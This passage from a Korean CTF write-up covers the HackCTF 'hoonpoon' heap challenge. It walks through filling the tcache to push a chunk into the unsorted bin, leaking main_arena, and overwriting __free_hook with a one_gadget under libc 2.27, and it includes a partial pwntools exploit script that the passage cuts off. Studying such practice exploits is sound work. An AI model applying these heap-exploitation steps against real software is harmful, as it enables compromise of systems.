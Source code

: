    - delete(0)를 하면 원하던 대로 unsorted bin에 들어가고 fd에 main_arena+88의 주소가 들어가 있음.<br><br>

2. unsorted bin에 청크가 들어갔다면, check() 함수를 이용하여 fd값 즉, main_arena+88 값을 leak하기
    - 이건 check() 함수로 바로 leak하면 끝
3. 이제는 그냥 free_hook 덮어서 one_gadget 실행시키면 됨
    - libc 2.27에서는 tcache 청크 재할당시 chunk size검사를 하지 않으므로  0x7f 이렇게 맞춰줄필요 없음

<br><br><br>

**2) 두번째 시나리오**

1. unsorted bin에 청크를 삽입하는 다른 방법.
``` python
add(0,0x100,p64(0)+p64(0x10))
add(1,0x10,"A")
delete(0)
delete(0)
delete(0)
delete(0)
delete(0)
delete(0)
delete(0)
delete(0)
```
<br>
- add(0x100) 만큼 할당받고, 이것도 마찬가지로 top 청크 사이의 거리를 맞춰주기 위해 add(0x10)한번 더함
- 그다음 free를 8번 시키면 7개까지는 tcache로 들어가고, 마지막 free는 0x100 크기 이므로 unsorted bin에 들어감  <br><br>

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF_hoon/Untitled%2013.png)

그다음은 첫번째 시나리오와 동일하게 진행하면 됨


<br><br>

최종 익스코드는 다음과 같다 (첫번째 시나리오 기준 익스 코드)
```python
# -*- coding: utf-8 -*-
from pwn import *
context(arch="amd64",os="linux",log_level="DEBUG")
#p=remote("ctf.j0n9hyun.xyz",3041)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc-2.27.so")}
p=process("./hoonpoon")
e=ELF("./hoonpoon")
libc=ELF("./libc-2.27.so")
gdb.attach(p,'code\nb *0xb75+$code\n')

def add(index,size,content):
    p.sendlineafter(">> ","1")
    p.sendlineafter("인덱스를 입력하시오:\n",str(index))
    p.sendlineafter("크기를 입력하시오:\n",str(size))
    p.sendafter("데이터를 입력하시오:\n",str(content))

def update(index,content):
        p.sendlineafter(">> ","2")
        p.sendlineafter("인덱스를 입력하시오:\n",str(index))
        p.sendafter("수정할 데이터를 입력하시오:\n",str(content))

def delete(index):
        p.sendlineafter(">> ","3")
        p.sendlineafter("인덱스를 입력하시오:\n",str(index))

def check(index):
        p.sendlineafter(">> ","4")
        p.sendlineafter("인덱스를 입력하시오:\n",str(index))


add(0,0x20,p64(0)+p64(0x10))
```